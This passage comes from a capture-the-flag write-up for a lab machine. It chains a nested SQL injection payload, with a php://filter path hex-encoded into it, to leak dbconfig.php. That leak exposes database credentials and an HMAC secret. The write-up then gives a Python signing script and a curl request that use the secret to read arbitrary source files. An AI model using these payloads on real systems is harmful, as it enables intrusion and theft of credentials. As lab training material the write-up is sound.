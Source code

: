     We repeated the process for dbconfig.php by hex-encoding its path:
    Bash
    
    echo -n "php://filter/convert.base64-encode/resource=dbconfig.php" | xxd -p | tr -d '\n' | sed 's/^/0x/'
    
    This yielded 0x7068703a2f2f66696c7465722f636f6e766572742e6261736536342d656e636f64652f7265736f757263653d6462636f6e6669672e706870.
    
    The payload to get the hash for dbconfig.php was:
    
    moebus' UNION SELECT "0 UNION SELECT 1,2,0x7068703a2f2f66696c7465722f636f6e766572742e6261736536342d656e636f64652f7265736f757263653d6462636f6e6669672e706870-- -"-- -
    
    Retrieving and decoding the source code of dbconfig.php exposed the SECRET_KEY and database credentials:
    PHP
    
    <?php
    // Database connection settings
    $servername = "db";
    $username = "web";
    $password = "TAJnF6YuIot83X3g";
    $dbname = "web";
    
    
    $SECRET_KEY='an8h6oTlNB9N0HNcJMPYJWypPR2786IQ4I3woPA1BqoJ7hzIS0qQWi2EKmJvAgOW';
    ?>

The SECRET_KEY was confirmed to be an8h6oTlNB9N0HNcJMPYJWypPR2786IQ4I3woPA1BqoJ7hzIS0qQWi2EKmJvAgOW.

With the SECRET_KEY, we could now calculate valid HMAC-SHA256 hashes for any path. A simple Python script was created for this:
Python

    import hmac
    import hashlib
    import sys
    
    secret_key = b"an8h6oTlNB9N0HNcJMPYJWypPR2786IQ4I3woPA1BqoJ7hzIS0qQWi2EKmJvAgOW"
    path = sys.argv[1].encode()
    h = hmac.new(secret_key, path, hashlib.sha256)
    signature = h.hexdigest()
    print(signature)

For instance, to read image.php's source, we calculated its hash:
Bash


    python3 hash_calc.py 'php://filter/convert.base64-encode/resource=image.php'
    ddc6eb77667e8f2dc36eeea2cb0883eb1ede14e6f6e32b6244256040dacfe5c6

Then, using curl with the calculated hash and path:
Bash

    curl -s 'http://10.10.131.204/image.php?hash=ddc6eb77667e8f2dc36eeea2cb0883eb1ede14e6f6e32b6244256040dacfe5c6&path=php://filter/convert.base64-encode/resource=image.php' | base64 -d
